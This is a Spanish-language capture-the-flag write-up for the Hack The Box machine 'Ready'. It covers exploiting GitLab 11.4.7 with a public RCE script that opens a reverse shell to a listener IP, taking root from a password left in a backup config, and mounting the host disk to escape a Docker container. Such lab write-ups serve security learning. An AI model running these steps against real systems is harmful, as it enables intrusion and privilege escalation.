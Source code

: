 ```yaml
---
layout: post
title:  "HackTheBox - Ready"
author: erik
categories: [ HTB ]
image: https://user-images.githubusercontent.com/47476901/155027150-bc1e52b6-053c-4aa6-87f6-5970850653de.png
beforetoc: ""
toc: false
tags: [ HTB, CVE, Linux ]
---
```

Maquina Linux nivel medio

# Table of Contents
1. [Enumeración](#enumeracion)
2. [Explotación](#explotacion)
3. [Escalación de Privilegios](#escalacion)

---

## Enumeración: <a name="enumeracion"></a>

**Puertos:**

- 22 SSH
- 5080 HTTP "GitLab"

### Gitlab

Para poder ingresar tuve que registrarme:
```http
http://10.10.10.220:5080/users/sign_in
```
![RegisterLogin](https://user-images.githubusercontent.com/47476901/119669294-3ca7ad80-be38-11eb-9974-73cae9331abc.png)



Mientras miraba Gitlab me di cuenta que tenia la version 11.4.7 y encontré un RCE que esta disponible.

![Searchsploit](https://user-images.githubusercontent.com/47476901/119669311-40d3cb00-be38-11eb-8ac5-df1bf27849cb.png)

## Explotación: <a name="explotacion"></a>

Este exploit nos crea un rce en un proyecto de gitlab que nos da una reverseshell al ejecutarlo.

- <a href="https://www.exploit-db.com/exploits/49334" target="_blank">Exploit Here</a>


```bash
python3 rce.py -u erik1 -p erik1234 -g http://10.10.10.220 -l 10.10.14.31 -P 1234
```

![ExploitRCE](https://user-images.githubusercontent.com/47476901/119669333-44675200-be38-11eb-957b-db84c295605a.png)

Este exploit nos crea un proyecto que nos ofrece una reverse shell, abrimos el proyecto para ejecutar la reverse.

Ponemos en escucha con el puerto indicado en el exploit:

![ReverseShell](https://user-images.githubusercontent.com/47476901/119669469-61038a00-be38-11eb-8de0-2c852d6f0959.png)

## Escalación de Privilegios: <a name="escalacion"></a>
La flag de user la podemos encontrar en  "/home/dude/user.txt".

![UserFlag](https://user-images.githubusercontent.com/47476901/119669485-64971100-be38-11eb-8089-4a9cbc8d0877.png)

En la ruta /opt/backups/gitlab.rb encontraremos un backup con la contraseña root del contenedor.

![FindPasswordRoot](https://user-images.githubusercontent.com/47476901/119681371-4c2bf400-be42-11eb-96da-72a78471ff0d.png)

Usamos la contraseña que hemos encontrado en el backup y accedemos a usuario root.

![LoginRoot](https://user-images.githubusercontent.com/47476901/119681390-4fbf7b00-be42-11eb-8746-3ce9e9af66a4.png)


Al estar dentro de un docker tendremos que intentar recopilar información fuera de el, para ello haremos lo siguiente:

Nos montamos la partición del host del contenedor para poder visualizarlo, allí encontraremos la flag:

![MountDocker](https://user-images.githubusercontent.com/47476901/119681411-55b55c00-be42-11eb-9035-b2cf24373cad.png)


![RootFlag](https://user-images.githubusercontent.com/47476901/119681425-5b12a680-be42-11eb-91ad-9c1584666773.png)


#### Maquina Completada
